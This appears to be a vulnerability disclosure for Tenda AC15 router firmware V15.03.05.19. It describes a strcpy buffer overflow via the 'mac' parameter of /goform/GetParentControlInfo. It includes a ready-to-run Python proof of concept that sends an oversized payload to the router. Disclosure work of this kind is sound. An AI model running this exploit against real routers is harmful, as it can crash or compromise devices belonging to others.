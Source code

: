 # TendaAC15v15.03.05.19GetParentControlInfo

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/102680

## Affected version

AC15v1.0 V15.03.05.19

## Vulnerability details

In this code, `strcpy` is used to copy the string pointed to by `src` to the memory area pointed to by `s` at offset 2. The problems are as follows:

1. **The target buffer size is unclear**: `s` is allocated `0x254` bytes of memory (596 bytes), but `strcpy` does not check the size of the target buffer and directly copies the contents of `src` to the `s + 2` position. If the length of the `src` string exceeds the memory space available after the `s + 2` position, `strcpy` will cause a buffer overflow.
2. **The size of `src` is not verified**: `src` is obtained from `sub_2BA8C(a1, "mac", &unk_EDD28)`, and it is not ensured that the string does not exceed the size of the memory space after the `s + 2` offset. If the length of `src` is too long and exceeds the memory range allocated by `s`, `strcpy` will write to the out-of-bounds memory area, causing an overflow.

![image-20250117235701292](/img/image-20250117235701292.png)

## POC

```python
import requests

def create_payload():
    return b"A" * 51200 + b"\xef\xbe\xad\xde"

def send_payload(url, payload):
    response = requests.get(url, params={'mac': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

if __name__ == "__main__":
    send_payload("http://192.168.1.100/goform/GetParentControlInfo", create_payload())
```

![image-20250117235917205](/img/image-20250117235917205.png)

